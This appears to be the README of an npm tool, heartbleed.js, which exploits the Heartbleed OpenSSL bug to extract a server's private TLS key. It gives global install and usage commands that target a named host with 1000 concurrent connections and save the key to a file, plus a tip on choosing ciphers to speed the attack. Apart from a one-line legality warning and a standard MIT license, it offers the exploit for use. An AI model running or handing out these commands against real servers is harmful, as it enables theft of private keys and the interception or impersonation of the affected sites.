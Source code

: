 # Heartbleed

Extracting server private key using [Heartbleed][0] OpenSSL vulnerability.

NOTE: Pointing this tool at other people's servers is illegal in most countries.

## How to use

```bash
$ npm install -g heartbleed.js
$ heartbleed
Options:
  --host         [required]
  --port         [default: 443]
  --concurrency  [default: 1]

Missing required arguments: host

$ heartbleed -h cloudflarechallenge.com -c 1000 >> key.pem
```

Protip, use cheap ciphers:

```bash
heartbleed -h cloudflarechallenge.com -c 1000 --ciphers="AES128-SHA" >> key.pem
```

#### LICENSE

This software is licensed under the MIT License.

Copyright Fedor Indutny, 2014.

Permission is hereby granted, free of charge, to any person obtaining a
copy of this software and associated documentation files (the
"Software"), to deal in the Software without restriction, including
without limitation the rights to use, copy, modify, merge, publish,
distribute, sublicense, and/or sell copies of the Software, and to permit
persons to whom the Software is furnished to do so, subject to the
following conditions:

The above copyright notice and this permission notice shall be included
in all copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS
OR IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF
MERCHANTABILITY, FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN
NO EVENT SHALL THE AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM,
DAMAGES OR OTHER LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR
OTHERWISE, ARISING FROM, OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE
USE OR OTHER DEALINGS IN THE SOFTWARE.

[0]: http://heartbleed.com/
